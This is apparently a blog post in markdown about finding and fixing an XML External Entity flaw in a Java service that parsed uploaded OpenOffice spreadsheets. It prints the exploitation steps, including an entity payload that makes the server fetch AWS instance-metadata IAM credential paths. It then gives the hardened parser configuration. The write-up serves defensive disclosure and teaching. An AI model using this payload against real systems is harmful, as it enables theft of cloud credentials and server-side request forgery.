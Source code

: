 ```yaml
---
title: "Hiding XXE in Spreadsheets"
date: 2018-06-08T12:24:08+01:00
draft: true
---
```


![](/images/hiding_xxe_in_spreadsheets_title.jpg)

Recently I tried to poke holes in a service.  I found myself [laughing out loud]({{< ref "/posts/laughing_out_loud_malicious_auth.md" >}}). 
This was a vulnerability whereby modifying a SAML authentication while being rePOSTed via the browser allowed 
me to inject a malicious payload (see [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) 
and [XML External Entity (XXE) Prevention Cheat Sheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)) 
that could be used to use up a service's memory and CPU.  Health checks and automatic service restarts would have 
healed the service but it still would have allowed an attacker to mount a Denial of Service attack without 
needing a lot of requests.

# Finding the Issue

Subsequently, I identified a number of services that needed to be fixed, and while I was fixing services I used the 
following regular expression to find other possible weaknesses:

```shell script
SAXBuilder|SAXReader|XMLReader|SAXTransformerFactory|SchemaFactory|TransformerFactory|XMLInputFactory|DocumentBuilderFactory|SAXParserFactory
```

This lead me to find the following code snippet in a class called WorksheetParser

```java
public WorksheetParser() throws ParserConfigurationException, SAXException
{
  SAXParserFactory factory = SAXParserFactory.newInstance();

  factory.setNamespaceAware(true);
  factory.setValidating(true);

  this.saxParser = factory.newSAXParser();
}
```

and `WorksheetParser` was used to parse ODF spreadsheets (OpenOffice spreadsheets).

In this app, "worksheet"s were used so that organisations can use a simple spreadsheet to collect their information and 
upload it.  The app parsed the information and played it back to the user.

Now, this got me thinking - as the ODF file format is just a ZIP file with XML content - and I had just found an 
unsecured `SAXParserFactory`, how difficult would it be to exploit that?

# The Exploit

So I got the spreadsheet and opened it up in LibreOffice and I filled in some basic data including first name and 
last name and saved the file.

Then I unzipped it

```shell script
$ mkdir xxe_bomb
$ cd xxe_bomb
$ unzip ../template_filled_in.ods
Archive:  ../template_filled_in.ods
 extracting: mimetype               
  inflating: styles.xml             
  inflating: META-INF/manifest.xml  
  inflating: content.xml            
  inflating: meta.xml               
 extracting: media/image1.png
```

then I just edited the content.xml file and added

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe-root [
        <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
```

then I looked for the last name that I entered ("Doe") - and replaced it with &xxe;

Then it was just a matter of zipping it back up again as my new payload file

```shell script
$ zip ../xxe_bomb.ods *
  adding: META-INF/ (stored 0%)
  adding: content.xml (deflated 98%)
  adding: media/ (stored 0%)
  adding: meta.xml (deflated 57%)
  adding: mimetype (deflated 4%)
  adding: styles.xml (deflated 79%)
```

Then once I had uploaded the file and the app played back the last name - I was able to get the IAM role...

# Limitations

The exploit was somewhat limited because the app validated the last name, and if there are unknown characters 
(like '{' or '}') an error would be displayed. So I wasn't able to extract the AWS keys by setting the payload to:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe-root [
        <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/app-server-role">
]>
```

as per [https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials)

Also those credentials would have been somewhat limited as they were locked down.

However, with enough knowledge of the system and the ability to execute arbitrary GET requests, I believe quite a 
bit of damage could have been done.

# The Fix

The offending class was changed to

```java
public WorksheetParser() throws ParserConfigurationException, SAXException
{
  SAXParserFactory factory = SAXParserFactory.newInstance();
  factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  factory.setXIncludeAware(false);
  factory.setNamespaceAware(true);
  factory.setValidating(true);

  this.saxParser = factory.newSAXParser();
}
```

as per the [OWASP XXE Prevention Cheat Sheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet#JAXP_DocumentBuilderFactory.2C_SAXParserFactory_and_DOM4J).

# Moral of the Story

*   Malicious XXE payloads can hidden in files that do not have the XML extension
*   Do not assume that XML processing is safe by default (particular when using older libraries) 
*   XML is evil
